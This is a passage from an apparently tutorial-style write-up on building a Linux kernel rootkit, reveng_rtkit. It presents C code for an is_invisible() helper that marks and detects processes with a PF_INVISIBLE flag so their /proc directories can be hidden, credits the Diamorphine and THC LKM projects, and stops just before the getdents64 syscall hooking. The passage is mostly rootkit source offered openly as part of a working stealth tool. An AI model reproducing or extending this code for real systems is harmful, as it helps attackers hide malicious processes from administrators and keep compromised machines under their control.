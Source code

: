 b) Visit: [repo](https://github.com/reveng007/reveng_rtkit/blob/055b7dce57cf1317f13fb3bd141e21c3ec82c5dc/kernel_src/include/hook_syscall_helper.h#L118).\
We will now make a function to hide those directories responsible for corresponding `pid`. Got this portion from [heroin](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#A-b) and [diamorphine](https://github.com/m0nad/Diamorphine/) project.

```c
/* Here, -"&gt;" : -">" and "&amp;" : "&" */

#define PF_INVISIBLE 0x10000000
                   
int is_invisible(pid_t pid)
{
	struct task_struct *task;

	if((task = find_task(pid)) == NULL)
		return(0);

	if(task-&gt;flags &amp; PF_INVISIBLE)
		return(1);

	return(0);
}
```
I made some changes,
```c
 #define PF_INVISIBLE 0x10000000

static int is_invisible(pid_t pid)
{
	struct task_struct *task = find_task(pid);

	if (!pid)
	{
		return 0;
	}

	if (!task)
	{
		return 0;
	}
	if (task->flags & PF_INVISIBLE)
	{
		return 1;
	}
	return 0;
}
```
Visit: [repo](https://github.com/reveng007/reveng_rtkit/blob/4eb75d38eee64a1d804e49220c9cbff092671faf/kernel_src/include/hook_syscall_helper.h#L137)\
Now, comes the last and final part: ***getdents64*** syscall interception.

This portion is totally taken from [diamorphine](https://github.com/m0nad/Diamorphine/)
                   
